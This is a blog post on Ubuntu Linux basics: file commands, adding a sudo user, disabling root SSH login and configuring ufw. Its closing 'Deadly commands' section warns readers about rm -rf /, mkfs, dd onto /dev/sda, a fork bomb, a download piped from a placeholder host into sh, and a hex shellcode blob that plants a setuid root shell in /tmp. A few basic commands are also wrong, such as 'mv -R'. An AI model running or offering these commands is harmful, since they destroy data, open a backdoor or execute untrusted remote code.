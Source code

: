 ```yaml
---
layout: post
title: Linux basics
---
```


# Ubuntu Linux basics

Hey, want to learn some Linux commands? Me neither.

***
<hr class="rule">

## Looking around

List all with attributes and permissions

    ls -la

List files with size

    ls -h

***

## Moving around

Remove folder

    rm -r folder-name

Remove folder with no prompt. Be **extremely** careful with the `rm -rf` command because you can wipe out the whole system with it. See the **deadly commands**.

    rm -rf folder-name

Rename folder or files

    mv old-name new-name

Move file somewhere else

    mv file-name /somewhere-else

Move folder somewhere else

    mv -R folder-name /somewhere-else

<hr class="rule">

***

# Server settings

Based on a typical [digitalocean](https://www.digitalocean.com/help/getting-started/setting-up-your-server/) Ubuntu droplet. There are also some good resources to look into at [Linode](https://www.linode.com/docs/security/securing-your-server), depending on how each is deployed.

***

## Add a new user with root privileges

Login as root and type:

    adduser newuser

Follow the prompt and create a strong password. Now add the new user to the sudo group.

    gpasswd -a newuser sudo

***

## Configure SSH Daemon

Modify the SSH daemon configuration (the program that allows remote login) to disallow remote SSH access to the root account.

Open the configuration file:

    nano /etc/ssh/sshd_config

Locate line:

    PermitRootLogin yes

Modify this line to:

    PermitRootLogin no

**Reload SSH**

    service ssh restart

***

## Configure Uncomplicated Firewall (ufw)

This sets up the bare minimum without SSL/TLS or SMTP opened. Full config docs from digitalocean is over [here](https://www.digitalocean.com/community/tutorials/how-to-setup-a-firewall-with-ufw-on-an-ubuntu-and-debian-cloud-server).

Create an exception for SSH connections so that we can maintain access for remote administration.

The SSH daemon runs on port 22 by default and `ufw` can implement a rule by name if the default has not been changed. So if you have not modified SSH port, you can enable the exception by typing:

    sudo ufw allow ssh

Allow only specific IP addresses if you want:

    sudo ufw allow from 192.168.255.255

Allow access to port 80 for a HTTP web server:

    sudo ufw allow 80/tcp

Review selections:

    sudo ufw show added

Enable firewall:

    sudo ufw enable

Check status:

    sudo ufw status verbose

***

# Deadly commands

Someday, some asshole on a forum may try to ruin your life by tricking you into using these commands. Take a hard look and remember them. **Never** run any of the following:

***

## Delete all files in the root directory

    rm -rf /

This freaks me out just to write it. This means force a deletion of everything in the root directory and all subfolders without prompt. So basically wiping your entire system in 5 lines of code.

There is "hidden" hex of this as well that looks like this.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00”
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;


## Reformat Data on device

    mkfs
    mkfs.ext3
    mkfs.anything

Whatever follows the mkfs command will be destroyed and replaced with a blank filesystem.

## Block device manipulation

    any_command > /dev/sda
    dd if=something of=/dev/sda

Watch out for `/dev/sda` These commands cause raw data to be written to a block device. Often this will clobber the filesystem and cause total loss of data.

Another similar command would be to drop all files into a black hole.

    mv ~ /dev/null

## Fork bomb

    :(){:|:&};:

This short line defines a shell function that creates new copies of itself until the system freezes, forcing a hard reset of the computer. Basically an internal DDOS attack.


## Malicious code in Shell scripts

    wget http://some_place/some_file -O- | sh

Or similarly

    wget http://some_place/some_file
    sh ./some_file

This may be trickier to spot as there are so many tools out there as package managers. Bottom line is don't execute a shell script from a fishy source. Mind the `-O- | sh` or `sh ./` commands.

***
